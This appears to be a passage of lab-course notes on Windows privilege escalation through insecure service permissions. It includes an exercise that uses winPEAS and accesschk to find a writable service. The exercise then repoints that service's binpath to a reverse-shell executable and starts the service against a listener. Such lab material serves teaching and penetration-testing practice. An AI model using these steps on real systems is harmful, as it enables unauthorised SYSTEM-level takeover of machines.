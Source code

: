 ````cmd
sc.exe config <name> <option>=<value>
````
Start/Stop a service:
````cmd
net start/stop <name>
````

### Insecure Service Permissions
Each service has an ACL which defines certain service-specific 
permissions.  
- Some permissions are innocuous ``(e.g. SERVICE_QUERY_CONFIG,SERVICE_QUERY_STATUS).``  
- Some may be useful ``(e.g. SERVICE_STOP, SERVICE_START).``
- Some are dangerous ``(e.g. SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS).``

If our user has permission to change the configuration of a 
service which runs with SYSTEM privileges, we can change 
the executable the service uses to one of our own.

> **Potential Rabbit Hole:** If you can change a service 
configuration but cannot stop/start the service, you may not 
be able to escalate privileges!

---
**Exercise:**

Connect to your windows server VMwith user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo
    ````
1. Note that we can modify the ``daclsvc`` service.
1. We can confirm this with accesschk.exe:
    ```` 
    .\accesschk.exe /accepteula -uwcqv user daclsvc
    ````
1. Check the current configuration of the service:
    ````
    s.exe qc daclsvc
    ````
1. Check the current status of the service:
    ````
    sc.exe query daclsvc
    ````
1. Reconfigure the service to use our reverse shell executable:
    ````
    sc.exe config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
    ````
1. Start a listener on Kali, and then start the service to trigger the 
exploit:
    ````
    net start daclsvc
    ````
